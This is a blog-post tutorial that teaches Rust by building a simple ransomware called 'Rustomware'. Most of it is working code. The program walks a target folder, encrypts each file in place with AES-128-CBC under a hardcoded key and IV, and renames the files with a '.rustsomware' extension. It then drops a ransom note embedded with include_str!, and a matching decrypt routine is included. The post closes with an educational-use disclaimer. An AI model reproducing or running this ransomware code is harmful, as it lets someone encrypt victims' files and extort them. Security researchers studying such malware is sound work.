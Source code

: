 ```yaml
---
layout: post
title: Rust 101 - Let's write a Rustomware
subtitle: Writing a ransomware in rust
gh-repo: idov31/rustomware
gh-badge: [star, fork, follow]
tags: [rust, windows, linux, malware-dev]
readtime: true
comments: true
---
```


## Introduction

When I first heard about Rust, my first reaction was "Why?". The language looked to me as a "wannabe" to C and I didn't understand why it is so popular. I started to read more and more about this language and began to like it. To challenge myself, I decided to write [FunctionStomping](https://github.com/idov31/FunctionStomping) in Rust. Later on, I ran into trickster0's amazing repository [OffensiveRust](https://github.com/trickster0/OffensiveRust) and that gave me more motivation to learn Rust. Nowadays I'm creating a unique C2 framework written (mostly) in Rust. If you are familiar with Rust, you can skip to Part 2 below.

The whole code for this blog post is avaliable in my [Github](https://github.com/idov31/rustomware) :).

## Rust's capabilities

The reason that I think that Rust is awesome language is because its powerful compiler, memory safety, easy syntax and great interfacting with the OS. Rust's compiler takes care to alert for anything that can be problematic - A thing that can be annoying but in the end it helps the developer to create safer programs. In the other hand, the compiler also takes care of annoying tasks that are required when programming in C like freeing memory, closing files, etc. Rust is also a cross-platform language, so it can be used on any platform and be executed differently depending on the OS.

## Part 1 - Hello Rust

Enough talking and let's start to code! The first thing we want to do is create our program, it can be done with this simple command:

```sh
cargo new rustomware
cd rustomware
```

In the rustsomware directory, we will have these files:

``` sh
rustomware
│   .gitignore
│   Cargo.toml    
│
└───src
│   │   main.rs
│   
└───.git
    │   ...
```

In the main.rs file, we will write our code, and in Cargo.toml we will include our modules.
To build our new program, we will use the following command:

``` sh
cargo build
```

Our executable will be in the target directory (because we didn't use the release flag so it will be in debug) and will be called rustomware.exe. You'll notice that there are few new files and directories - the Cargo.lock file, and many files under the target directory. I won't elaborate about them here, in general the Cargo.lock file contains the dependecies of the project in a format that can be used by Cargo to build the project. **THERE IS NO NEED TO EDIT THOSE FILES**. In the target directory we will have the modules themselves, the executable and the PDB file. After we learned a bit about Rust, we can dive in to code our ransomware.

## Part 2 - Iterating the target folder

Like any good ransomware, we will need to have these functionalities:

- Encrypting files.
- Decrypting files.
- Dropping a README file.
- Adding our own extension to the files.

For that, we will need to use crates (modules) to help us out. First things first, we need to be able to get a list of all the files in the target directory from the argv. To do that, we can use the std library and the fs module. To use a module all we need to do is to import it:

``` rust
use std::{
    env,
    fs
};

fn main() {
    let args: Vec<_> = env::args().collect();
    
    if args.len() < 2 {
        println!("Not enough arguments! Usage: rustsomware <encrypt|decrypt> <folder>");
        return;
    }

    let entries = fs::read_dir(args[2].clone()).unwrap();

    for raw_entry in entries {
        let entry = raw_entry.unwrap();

        if entry.file_type().unwrap().is_file() {
            println!("File Name: {}", entry.path().display())
        }
    }
}
```

Now we have a program that finds files in a folder. Notice that we used the unwrap() method to get the result, it is required because Rust functions mostly send as a result a result type that can be either Ok or Err. We also needed to clone the string because it Rust need to clone objects or create a safe borrow (It is not recommended to borrow objects, but it is possible and can be useful in some cases).

## Part 3 - Encrypting / Decrypting the files

To encrypt the files, we will the [AES](https://en.wikipedia.com/wiki/Advanced_Encryption_Standard) cipher with hardcoded key and IV. All that is left for us to do is to create a function that is responsible to encrypt the file and change its extension to .rustsomware. First things first, to be able to do encryption / decryption methods we will need to have a crate to help with that. Since the libaes crate isn't a default crate, we need to import it to our project and this can be done by modifying the Cargo.toml file by adding:

```toml
[Dependencies]

libaes = "0.6.2"
```

Now, we can create a function that can encrypt and decrypt. For the sake of practice, we will use hardcoded key and IV but this is **NOT** recommended at all.

``` rust
fn encrypt_decrypt(file_name: &str, action: &str) -> bool {
    let key = b"fTjWmZq4t7w!z%C*";
    let iv = b"+MbQeThWmZq4t6w9";
    let cipher = Cipher::new_128(key);

    match action {
        "encrypt" => {
            println!("[*] Encrypting {}", file_name);
            let encrypted = cipher.cbc_encrypt(iv, &fs::read(file_name).unwrap());
            fs::write(file_name, encrypted).unwrap();
            let new_filename = format!("{}.rustsomware", file_name);
            fs::rename(file_name, new_filename).unwrap();
        }

        "decrypt" => {
            println!("[*] Decrypting {}", file_name);
            let decrypted = cipher.cbc_decrypt(iv, &fs::read(file_name).unwrap());
            fs::write(file_name, decrypted).unwrap();
            let new_filename = file_name.replace(".rustsomware", "");
            fs::rename(file_name, new_filename).unwrap();
        }

        _ => { 
            println!("[-] Invalid action!");
            return false 
        }
    }

    return true;
}
```

You can use the key and IV from above or [generate yourself](https://www.allkeysgenerator.com/Random/Security-Encryption-Key-Generator.aspx). The code above is a simple example of how to use AES128 with Rust, pretty simple right?

As you saw, Rust have a simple interface with the file system that allows to rename and do io operations easily. Because this is a simple example the function returns boolean type but it is recommended to return the error to the calling function for further handling.

## Part 4 - Adding pretty prints and README file

Just like any good ransomware we need to do a simple thing and add a README file. For the sake of learning, we will learn about including files statically to our binary. Create a readme.txt file with your ransom message in it (it is recommended to create it in a seperate directory inside your project directory but you can also put it in the src directory). To add the file, all we need to do is to use the include_str! macro (everything that ends with ! in rust is a macro) and save it to variable.

```rust
...

// Dropping the README.txt file.
let ransom_message = include_str!("../res/README.txt");
let readme_path = format!("{}/README_Rustsomware.txt", args[2].clone());
fs::write(readme_path, ransom_message).unwrap();
```

As you saw, we can just save it to file and if we want to do any change just change the README file and recompile, no code editting required.

Result:
<img src="../assets/img/rust101-rustsomware/encrypted_files.png" />

## Conclusion

In this blog post, you got a taste from Rust's power and had fun with it by creating a simple program. I think that in the future we will see more and more infosec tools that are written in Rust. The whole code is avaliable in my [Github](https://github.com/idov31), for any question feel free to ask me on [Twitter](https://twitter.com/idov31).

## Discalimer

I'm not responsible for any damage that may occur to your computer. This article is just for eductional purposes and not inteded to be used in any other way.
